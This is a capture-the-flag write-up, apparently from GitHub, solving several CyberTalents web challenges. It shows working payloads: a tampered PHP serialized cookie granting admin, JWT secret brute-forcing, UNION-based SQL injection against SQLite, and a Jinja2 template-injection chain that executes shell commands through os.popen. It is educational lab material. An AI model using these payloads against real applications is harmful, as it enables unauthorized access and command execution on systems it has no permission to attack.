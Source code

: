 ## 2 SEP 2021 | cybertalents


# 1- one click | 25 pts
``` 
-Type of malicious exploit of a website where unauthorized commands are submitted from a user that the web application trusts .
CSRF
```

# 2- where is the flag | 50 pts
```
in page source code :
Can you see the flag
	VGgzRmxhZzFzSDNyM0JyMA%3D%3D
  
it is base64 encoded let's decode it :
echo "VGgzRmxhZzFzSDNyM0JyMA==" | base64 -d
flag :Th3Flag1sH3r3Br0   
```

# 3- catch toka  | 50 pts
![image](https://user-images.githubusercontent.com/67979878/131999513-d567d9fc-d47d-4071-b7ff-e422ae78a903.png)

```
- try to modify request by : X-Forwarded-For: german_ip  but doesn't work 
- then i changed Accept language header to german hence it only talks german xD 
  check :https://www.websitepulse.com/kb/http_accept_language
  so in request : Accept-Language: de
```
![image](https://user-images.githubusercontent.com/67979878/132000126-f6c6f56a-a6e3-4ee7-b785-ebef8da38300.png)

# 4- wanna some biscuits | 50 pts 

![image](https://user-images.githubusercontent.com/67979878/132000336-77588af6-8497-48bc-a1f5-7d04e1443bd5.png)

```
source code doesn't contain any thing helpful however we have a cookie !
```
![image](https://user-images.githubusercontent.com/67979878/132000466-423f1156-2d82-4bd3-9b26-3fba151f4db6.png)


```
looks like insecure deserialization :D , let's modify these values (username, isAdmin)

O:4:"User":2:{s:8:"userName";s:9:"anonymous";s:7:"isAdmin";b:0;}

to

O:4:"User":2:{s:8:"userName";s:5:"admin";s:7:"isAdmin";b:1;}
```
![image](https://user-images.githubusercontent.com/67979878/132000676-4e983b9a-7367-4140-b176-270883a20b94.png)


# 5- Pasta Code | 100 pts

```
when visit it will get restricted port to open hence it runs on port 6000

great link to bypass :https://www.specialagentsqueaky.com/blog-post/r5iwj96j/2012-02-20-how-to-remove-firefoxs-this-address-is-restricted/

```

![image](https://user-images.githubusercontent.com/67979878/132001325-2f804a8d-0f0e-498d-8dae-c436c1f53e7f.png)

```
register and login with your credits you will notice a JWT in request 

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluMiJ9.xh8kwc0iNg97vgw9JTENTIpvrw_JrPrYyuLbwz0ax6A

let's bruteforce it and get our secret !

```
![image](https://user-images.githubusercontent.com/67979878/132001884-84457cb9-44cb-4dbc-8853-7832afeb32ef.png)
![image](https://user-images.githubusercontent.com/67979878/132001978-746b2d5f-4667-4a9d-a1d4-38e5b71ef086.png)

```
moidfying JWT value will reveal the flag 
```

# 6- Notes | 100 pts

```
can't login or regiseter only can view notes tab and there find some notes and checked them
```
![image](https://user-images.githubusercontent.com/67979878/132009366-7b8b7624-2aac-435c-b8fa-63dc53c3238b.png)

```
when visit any page it take note name and base64 it 
```
![image](https://user-images.githubusercontent.com/67979878/132009583-954852a6-5e22-4fc0-8e64-37ecd479d81c.png)

```
it looks like if there is a hidden parameter at this tempelate and it takes this text and decode it then retrieve data 
[x] let's try inject some XSS , failed
[]  try some sql :D 

junk' UNION SELECT * FROM information_schema.tables-- => base64 it
```
![image](https://user-images.githubusercontent.com/67979878/132010241-57f1572c-5f60-4934-bd66-c19ba4e4ad8e.png)
```
so it is not MySQL let's try sqlite :
junk' UNION SELECT * FROM sqlite_master--
```
![image](https://user-images.githubusercontent.com/67979878/132010405-1d404520-60e3-4bad-b87b-4176e94ddd1c.png)
```
it looks like it is , but need to specify right number of columns 
junk' UNION SELECT tbl_name FROM sqlite_master--

```
![image](https://user-images.githubusercontent.com/67979878/132010547-3b447f89-9943-4249-be68-1472ebd07032.png)

``junk' UNION SELECT flag FROM flags--``

![image](https://user-images.githubusercontent.com/67979878/132010692-e8da36ad-8530-407d-bd64-cfae3a7ec05b.png)

we have half of the flag 
`You made it! FLAG{8f94cf148a9f01a3745e`

we have a note saying : `I like flask and this ginger thing`
ginger ==> jinja
![image](https://user-images.githubusercontent.com/67979878/132011021-9e1ae56e-26ac-485a-9663-04a7bc2608ea.png)

check : https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md

![image](https://user-images.githubusercontent.com/67979878/132011271-2fd73a73-5927-4a7f-93ee-dc7da7d2092e.png)

we have a hint form the author : `The second part of the flag has to do with your reflected input. what input can you reflect on the page?`
- we can only reflect our sql injection :3 so let's try inject SSTI inside SQLi 
`junk' UNION SELECT "{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
" FROM flags--`
![image](https://user-images.githubusercontent.com/67979878/132011535-bc8ab651-6efd-496a-aa57-5a18c87db04b.png)

`junk' UNION SELECT "{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag2.txt').read() }}
" FROM flags--`

![image](https://user-images.githubusercontent.com/67979878/132012186-f691aa0f-281a-43a6-9733-4ced95d0b297.png)

`FLAG{8f94cf148a9f01a3745e12f1fc6f8e419dc0fb08}`

# 7- grocery bot | 200 pts
